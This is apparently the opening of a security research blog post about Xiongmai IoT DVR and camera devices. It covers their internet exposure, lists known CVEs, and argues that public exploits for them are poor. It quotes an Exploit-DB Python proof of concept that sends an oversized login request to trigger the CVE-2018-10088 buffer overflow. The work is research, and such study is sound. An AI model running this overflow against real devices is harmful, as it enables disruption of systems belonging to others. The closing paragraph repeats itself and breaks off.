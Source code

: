 There are a number of reasons \[Xiongmai\](https://www.xiongmaitech.com/en/index.php) devices are interesting targets. The first reason is there are a lot of them on the internet. Around \[200,000\](https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per\_page=25&virtual\_hosts=EXCLUDE&q=%28services.http.response.body%3A%22NetSuveillanceWebCookie%22+or+services.http.response.html\_title%3A%22NetSurveillance+WEB%22%29+and+%28services.http.response.headers.server%3A%22uc-httpd%22+or+not+services.http.response.headers.server%3A%22\*%22%29).\\n\\n!\[censys\](/blog/xiongmai-iot-exploitation/censys\_results.png){:width="100%"}\\n\\nThe second reason is these devices have been affected by a handful of high or critical vulnerabilities:\\n\\n\* \[CVE-2017-7577\](https://nvd.nist.gov/vuln/detail/CVE-2017-7577): Unauthenticated HTTP request path traversal resulting in arbitrary file and credential disclosure.\\n\* \[CVE-2018-10088\](https://nvd.nist.gov/vuln/detail/CVE-2018-10088): Unauthenticated and remote HTTP login request stack-based buffer overflow.\\n\* \[CVE-2020-22253\](https://nvd.nist.gov/vuln/detail/CVE-2020-22253): Port 9530 debug interface that allowed an unauthenticated attacker to open a telnet.\\n\* \[CVE-2021-41506\](https://nvd.nist.gov/vuln/detail/CVE-2021-41506): Port 9527 debug interface that allows an attacker using default credentials to execute arbitrary operating system commands (technically speaking, the wording of the CVE could include CVE-2020-22253 / port 9530).\\n\* \[CVE-2022-26259\](https://nvd.nist.gov/vuln/detail/CVE-2022-26259): Unauthenticated and remote RTSP parsing stack buffer overflow.\\n\* \[CVE-2022-45045\](https://nvd.nist.gov/vuln/detail/CVE-2022-45045): Authenticated and remote command execution via port 34567 upgrade logic. \\n\* \[CVE-2022-45460\](https://nvd.nist.gov/vuln/detail/CVE-2022-45460): Unauthenticated and remote HTTP request URI parsing stack-based buffer overflow.\\n\\n\\nAnd that’s interesting due to an almost complete lack of high quality exploits for these vulnerabilities. You won’t find any in \[Metasploit\](https://www.metasploit.com/). \[Core\](https://www.coresecurity.com/core-labs/exploits) and \[Routersploit\](https://github.com/threat9/routersploit) only offer the path traversal information leak (CVE-2017-7577). One of the more widely cited Xiongmai \[proof of concept\](https://www.exploit-db.com/exploits/44864) exploits is for CVE-2018-10088 and it’s entirely useless for code execution.\\n\\n\`\`\`python\\n# Exploit Title: XiongMai uc-httpd 1.0.0 - Buffer Overflow\\n# Date: 2018-06-08 \\n# Exploit Author: Andrew Watson\\n# Software Version: XiongMai uc-httpd 1.0.0\\n# Vendor Homepage: http://www.xiongmaitech.com/en/\\n# Tested on: KKMoon DVR running XiongMai uc-httpd 1.0.0 on TCP/81\\n# CVE ID: CVE-2018-10088\\n# DISCLAIMER: This proof of concept is provided for educational purposes only!\\n \\n#!/usr/bin/python\\n \\nimport socket\\nimport sys\\n \\npayload="A" \* 85\\n \\nprint "\\n###############################################"\\nprint "XiongMai uc-httpd 1.0.0 Buffer Overflow Exploit"\\n \\nif len(sys.argv) < 2:\\n print "\\nUsage: " + sys.argv\[0\] + " \\n"\\n sys.exit()\\n \\nprint "\\nTarget: " + sys.argv\[1\]\\nprint "Sending exploit..."\\ns=socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)\\ns.connect((sys.argv\[1\],81))\\ns.send('POST /login.htm HTTP/1.1\\r\\n')\\ns.send('command=login&username=' + payload + '&password=PoC\\r\\n\\r\\n')\\ns.recv(1024)\\ns.close()\\nprint "\\nExploit complete!"\\n\\n\`\`\`\\n\\nWhich brings me to the third reason I find these targets to be interesting, despite the lack of quality exploits, we know at least five of these issues have been exploited in the wild. You won’t find them listed in CISA’s \[Known Exploited Vulnerability Catalog\](https://www.cisa.gov/known-exploited-vulnerabilities-catalog), but \[high\](https://www.trendmicro.com/en\_us/research/19/g/keeping-a-hidden-identity-mirai-ccs-in-tor-network.html) \[quality\](https://cybersecurity.att.com/blogs/labs-research/botenago-strike-again-malware-source-code-uploaded-to-github) \[reporting\](https://blog.netlab.360.com/the-new-developments-of-the-fbot-en/), Greynoise, and our own honeypots leave no doubt (more on that later).\\n\\nAnother reason I find Xiongmai devices interesting is the continuity of the underlying software. A lot of IoT vendors ship wildly different firmware depending on the model or underlying hardware. Not the case with Xiongmai. The underlying software is more or less the same from 2016 through 2022. The majority of the system logic flows through a single binary named Sofia. Just as it always has. That’s useful for an attacker (or researcher) because knowledge gained using a 2016 exploit can sometimes still be useful for a 2022 exploit.\\n\\nFinally, the last reason these systems are interesting is they are very easy to acquire. Just snag one off of Amazon. They are relatively cheap too. Availability and price probably goes a long way to explaining their popularity.\\n\\n!\[amazon\_order\](/blog/xiongmai-iot-exploitation/amazon\_sunba.png){:width="100%"}\\n\\nHaving hopefully convinced you that these systems are worthy of your attention, the remainder of this blog will be devoted to looking at these systems, and their exploitation, in more depth. We’ll quickly look at how the system has evolved over the years. We’ll look at developing exploits for two of the stack buffer overflows. We’ll examine a payload caught in a honeypot. Attempt to get an idea of how widespread exploitation is, and finally look at some concerning files on the Xiongmai firmware server.\\n\\nHaving hopefully convinced you that these systems are worthy of your attention, the remainder of this blog will be devoted to looking at these systems, and their exploitation, in more depth. We’ll quickly look at how the system has evolved over the years. We’ll look at